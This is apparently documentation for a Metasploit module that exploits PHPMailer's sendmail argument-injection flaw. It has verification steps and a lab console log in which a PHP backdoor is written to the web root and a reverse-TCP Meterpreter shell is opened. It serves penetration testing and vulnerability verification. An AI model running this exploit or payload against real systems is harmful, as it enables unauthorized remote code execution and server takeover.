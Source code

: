 ## Vulnerable Application

PHPMailer versions up to and including [5.2.20](https://github.com/PHPMailer/PHPMailer/archive/v5.2.20.tar.gz) are affected by a vulnerability which can be leveraged by an attacker to
write a file with partially controlled contents to an arbitrary location through injection of arguments that are passed
to the sendmail binary. This module writes a payload to the web root of the webserver before then executing it with an
HTTP request. The user running PHPMailer must have write access to the specified WEB_ROOT directory and successful
exploitation can take a few minutes.

[5.1.18](https://github.com/PHPMailer/PHPMailer/archive/v5.2.18.tar.gz) is also targetted.

## Verification Steps

  1. Install a vulnerable PHPMailer
  2. Start msfconsole
  3. `use exploit/multi/http/phpmailer_arg_injection`
  4.  Set the TARGETURI and WEB_ROOT options as applicable
  5. `exploit`
  6.  Verify the module yields a PHP meterpreter session in < 5 minutes
  7.  Verify the malicious PHP file was automatically removed

## Options

### WaitTimeout
Seconds to wait to trigger the payload
### NameField
Name of the element for the Name field
### EmailField
Name of the element for the Email field
### MessageField
Name of the element for the Message field

## Scenarios

  Demo taken directly from [PR7768](https://github.com/rapid7/metasploit-framework/pull/7768)

```
msf (S:0 J:0) exploit(php_mailer) > options

Module options (exploit/linux/http/php_mailer):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST       192.168.90.134   yes       The target address
   RPORT       8080             yes       The target port
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       Path to the application root
   TRIGGERURI                   no        Path to the uploaded payload
   VHOST                        no        HTTP server virtual host
   WEB_ROOT    /www             yes       Path to the web root



Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.90.134   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



msf (S:0 J:0) exploit(php_mailer) > rexploit
[*] Reloading module...

[*] [2016.12.29-17:03:47] Started reverse TCP handler on 192.168.90.134:4444
[*] [2016.12.29-17:03:47] Writing the backdoor to /www/0IxI5AFB.php
[*] [2016.12.29-17:04:07] Sleeping before requesting the written file
[*] [2016.12.29-17:04:07] Waiting for up to 300 seconds to trigger the payload
[+] [2016.12.29-17:04:48] Successfully found the payload
[*] [2016.12.29-17:05:50] Sending stage (34122 bytes) to 172.17.0.2
[*] Meterpreter session 4 opened (192.168.90.134:4444 -> 172.17.0.2:47280) at 2016-12-29 17:05:50 -0500
[+] [2016.12.29-17:05:50] Deleted /www/0IxI5AFB.php
[+] [2016.12.29-17:06:10] Successfully triggered the payload


meterpreter > sysinfo
Computer    : 90f0c8e8dbe4
OS          : Linux 90f0c8e8dbe4 4.8.15-200.fc24.x86_64 #1 SMP Thu Dec 15 23:09:22 UTC 2016 x86_64
Meterpreter : php/linux

meterpreter >
```
